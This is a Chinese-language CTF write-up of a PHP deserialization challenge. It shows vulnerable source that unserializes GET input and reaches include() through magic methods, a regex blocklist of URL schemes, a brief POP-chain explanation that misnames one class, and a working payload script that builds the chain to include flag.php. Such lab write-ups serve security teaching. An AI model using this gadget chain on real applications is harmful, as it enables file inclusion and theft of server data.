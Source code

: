 源码

```php
Welcome to index.php
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
}
```

漏洞点是 Modifier 类的 append 方法，append 方法被 `__invoke()` 调用。但是 `__invoke()`方法这里的类，并没有其他方法了，所以没办法直接调用。

看 Test 类，Test 类里面的 `__get()`  魔术方法，可以将 p 设为我们构造好的 Modifier 对象。但是 `__get()` 方法又是在访问不存在的成员变量时被调用的，这里就自然而然用上了 `Test#__toString()` 方法

最终 payload

````php
<?php
class Modifier {
    protected  $var="flag.php";
}
class Show{
    public $source;
    public $str;
}
class Test{
    public $p;
}
$a = new Show();
$b= new Show();
$a->source=$b;
$b->str=new Test();
($b->str)->p=new Modifier();
echo urlencode(serialize($a));
````














